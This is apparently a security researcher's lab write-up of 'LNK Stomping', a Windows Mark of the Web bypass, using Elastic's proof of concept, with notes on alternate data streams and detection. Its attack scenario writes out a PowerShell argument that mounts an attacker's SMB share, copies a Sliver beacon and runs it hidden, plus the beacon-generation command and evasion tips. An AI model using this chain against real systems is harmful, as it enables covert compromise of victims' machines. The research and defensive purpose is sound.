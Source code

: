 ```yaml
---
title: "LNK Stomping"
date: 2024-09-04T17:17:01-06:00
draft: false
---
```



This [PoC provided by Elastic](https://github.com/joe-desimone/rep-research) is about LNK Stomping. Currently Microsoft has not provided a CVE for this method; however, they did release CVE-2024-38212, a MotW bypass vulnerability, but only included SmartScreen, not Smart App Control (SAC). As this testing is done on Windows 10 with build number 19045, I won't be dealing with SAC anyway. The PoC can bypass both.

A quick primer on MotW from Elastic:
> When a user downloads a file, the browser will create an associated “Zone.Identifier” file in an [alternate data stream](https://www.digital-detective.net/forensic-analysis-of-zone-identifier-stream/) (ADS) known as the Mark of the Web (MotW). This lets other software (including AV and EDR) on the system know that the file is more risky. SmartScreen only scans files with the Mark of the Web. SAC completely blocks certain file types if they have it. This makes MotW bypasses an interesting research target, as it can usually lead to bypassing these security systems. Financially motivated threat groups have discovered and leveraged [multiple vulnerabilities](https://blog.google/threat-analysis-group/magniber-ransomware-actors-used-a-variant-of-microsoft-smartscreen-bypass/) to bypass MotW checks. These techniques involved appending crafted and invalid code signing signatures to javascript or MSI files.

I explained what an ADS is in a previous post [T1564.004](https://axelarator.github.io/posts/ntfs/)
> A data stream that is alternate to the normal data stream. The data attribute (`$DATA`) is called the “normal” data stream or “unnamed” data stream since it can be left blank.
>     - A normal data stream looks like `$DATA:""`
>     - An alternate data stream can be `$DATA:"SecondStream"`
> - To read what’s inside an ADS
>     - `Get-Item -path <file> -stream *`
>     - `Get-Content -path <file> -stream <stream name>`
> - To add streams to a file
>     - `set-content -path <path> -stream <stream name>`
> - To search for ADS
>     - `gci -recurse | % { gi $_.FullName - stream * } | where stream -ne ':$Data'`
> - To remove ADS
>     - `remove-item -path <path> -stream <stream name>`
> - A sysinternals tool called `streams.exe` can also enumerate streams
>     - `streams <file path>`

To provide a more visual explanation, taking the PoC GithHub repo above, you can view the data streams within the ZIP file (`Get-Item`) and view the contents to see where it came from (`Get-Content`). I downloaded the ZIP directly because cloning the repo only provides a `$DATA` stream. The Git client simply does not have a Zone.Identifier ADS which can also be treated as a way to bypass MotW. 
![1.png](/lnkstomping/1.png)

What's interesting from the first screenshot is the inclusion of a SmartScreen data stream. This is a stream that provides an additional hook into the registered AV engine.

![3.png](/lnkstomping/3.png)

SysInternals also includes a tool if that command is too annoying to type out. The caveat being you can't view the content.
https://learn.microsoft.com/en-us/sysinternals/downloads/streams

![4.png](/lnkstomping/4.png)

Now rather than just using a different file type like an ISO embedded within a ZIP archive, something [Black Basta](https://www.trendmicro.com/en_us/research/22/j/black-basta-infiltrates-networks-via-qakbot-brute-ratel-and-coba.html) and numerous other threat actors have done in the past, Elastic uncovered another trivial way of evading MotW by using LNK files with non-standard target paths or internal structures. When the file is clicked, `explorer.exe` modifies the file with canonical formatting, removing the MotW label. 
In this example, I used the dot variant which appends a dot after the PowerShell executable so it looks like `~\powershell.exe.` 

```python
python lnk_stomping.py --executable c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe --arguments "-c calc" --icon folder --variant dot --output totally_legit.lnk
```

The `--icon` argument argument can either make the LNK file to appear as a folder or pdf icon. An [obfuscation method](https://attack.mitre.org/techniques/T1027/012/) threat actors use to make their files appear legit.

![5.png](/lnkstomping/5.png)

Using Eric Zimmerman's tool LECMD, the path with the dot operator can be seen
![6.png](/lnkstomping/6.png)

Since all of this was done locally, testing if it evades MotW won't work since it was never applied in the first place. Instead, I hosted this file elsewhere and download it to my Windows system and you can see below the Zone.Identifier stream attached. If you're wondering why the filename changed, the GitHub repo hosts sample files already configured with dot, path segment, and relative variants. Each of them can be recreated anyway using the Python script and supplying the appropriate variant you want to test.

![7.png](/lnkstomping/7.png)

Following execution with a successful `calc.exe` process opened, the stream is gone!
![8.png](/lnkstomping/8.png)

Viewing the LNK via LECMD again confirms Windows Explorer did indeed modify the file to fix the trailing dot.
![9.png](/lnkstomping/9.png)

### Attack Scenario

To put a little more effort into this, I modified the arguments to download a remote file and execute it to gain a Sliver beacon. I'm not trying to win any awards for defense evasion or command obfuscation but you could simplify this a bit with `psexec`. However, since `psexec` is a part of the Sysinternals suite, it would rely on the victim already having it installed which in this case isn't realistic. 

`-c net use \\192.168.98.108\kalishare /USER:anon anon; copy \\192.168.98.108\kalishare\READY_CANAL.exe; powershell.exe -WindowStyle hidden .\READY_CANAL.exe" --icon pdf --variant dot --output sliver.lnk`

The command starts by connecting to an SMB share running on the attacker system with credentials anon:anon. 

![10.png](/lnkstomping/10.png)

Next, it copies the Sliver beacon to the victim's current working directory. But in order to copy a beacon, one has to be created first. Within the sliver terminal:

`generate beacon -b 192.168.98.108 --skip-symbols --debug -j 5 -S 15 --os windows`

Without providing a name, it will create a randomly generated one which in this case is `ROYAL_CANAL.exe`. Better opsec would be to rename this as a process already present on Windows, like `svchost.exe`. It won't totally evade detection as Sliver is very well known and Windows Defender signatures will flag and purge this instantly, but it's a start. Next steps would be to implement something like [PEzore](https://iwantmore.pizza/posts/PEzor.html)

So with a beacon payload generated and an SMB share running, the last step is to start an HTTPS listener so the beacon has something to connect back to.

![11.png](/lnkstomping/11.png)

Everything's ready so it's time to execute! Following execution, Sliver got a callback. 
![12.png](/lnkstomping/12.png)

From here, it's up to the features of Sliver and any additional tools within the Armory to carry out further attacks. If noise is what you're after, you could run `seatbelt -i -- -group=system` to dump everything about the current system. Mainly Event ID's 4798 (group-membership-enumerated) and 4799 (user-member-enumerated). 
Since this is an HTTPS beacon, you'll see a lot of Sysmon event ID 3 ( Network connection detected) logs too for each task and check-in. 

For this lab, the user account is vulnerable by default and a part of the Administrators group so owning the system is quite easy.

![13.png](/lnkstomping/13.png)

### References
https://www.elastic.co/security-labs/dismantling-smart-app-control
https://github.com/joe-desimone/rep-research
https://redcanary.com/threat-detection-report/techniques/mark-of-the-web-bypass/
https://unprotect.it/technique/mark-of-the-web-motw-bypass/
